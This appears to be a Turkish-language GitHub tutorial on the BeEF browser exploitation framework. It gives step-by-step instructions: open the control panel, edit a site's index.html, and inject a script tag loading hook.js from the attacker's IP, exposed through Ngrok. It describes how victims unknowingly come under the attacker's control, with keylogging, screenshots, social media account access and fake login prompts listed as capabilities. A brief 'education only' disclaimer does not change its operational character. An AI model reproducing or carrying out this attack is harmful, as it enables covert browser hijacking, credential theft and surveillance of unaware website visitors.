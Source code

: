 **1. BeEF Arayüzüne Erişim 🖥️**
- BeEF'i başlattıktan sonra terminalde **iki önemli URL** görünecek:
  - 🎛️ **UI URL:** `http://localhost:3000/ui/panel`
    - _Burası sizin kontrol paneliniz!_
  - 🎣 **Hook URL:** `http://localhost:3000/hook.js`
    - _Bunu hedef sitelere enjekte edeceğiz!_

**2. Web Sitesine Hook Ekleme 📄**
```bash
# HTML dosyasını düzenlemek için:
cd /var/www/html
sudo nano index.html
```

**Eklenmesi Gereken Kod:**
```html
<!-- Diğer script tag'lerinin yanına veya </body> etiketinden önce ekle: -->
<script src="http://YOUR_IP:3000/hook.js"></script>
```

---

### 🎯 Saldırı Senaryosu ve İşleyiş ⚡

**1. Kurbanın Deneyimi:**
- 🎮 Kurban, oyunu normal şekilde oynar
- 🔍 Hiçbir şeyden haberi olmaz
- ⚠️ Tarayıcısı arka planda **BeEF kontrolüne** girer

**2. Saldırganın Kontrolü:**
- 🖥️ BeEF panelinde kurbanın tarayıcısı görünür
- 🎯 **Hook araçları** ile şunlar yapılabilir:
  - 🔑 Tuş kaydetme (Keylogger)
  - 📸 Ekran görüntüsü alma
  - 🔗 Sosyal medya hesaplarına erişim
  - 🎭 Sahte oturum açtırma
  - 📊 Bilgi toplama

---

### ✅ Son Kontrol Listesi 📋

- [ ] BeEF çalışıyor mu? (`http://localhost:3000/ui/panel`)
- [ ] Hook URL doğru mu?
- [ ] HTML dosyasına hook eklendi mi?
- [ ] Web sitesi erişilebilir mi?
- [ ] Ngrok aktif mi? (Dış ağ için)
- [ ] Kurban siteyi ziyaret etti mi?

---

### ⚠️ Güvenlik Uyarıları 🛡️

- ❗ **BU SADECE EĞİTİM İÇİNDIR!**
- 🔒 **Kendi lab ortamında test et!**
- ⚖️ **Yazılı izin olmadan asla kullanma!**
- 📊 **Saldırı tespit sistemleri bunu fark edebilir**

---

**Özet:** BeEF'i başlat ➕ Hook'u siteye ekle ➕ Kurbanı bekleyip panelden kontrol et! 🎣  
**Not:** Kurban siteye girdiğinde, BeEF panelinde **online browsers** kısmında görünecek! ✅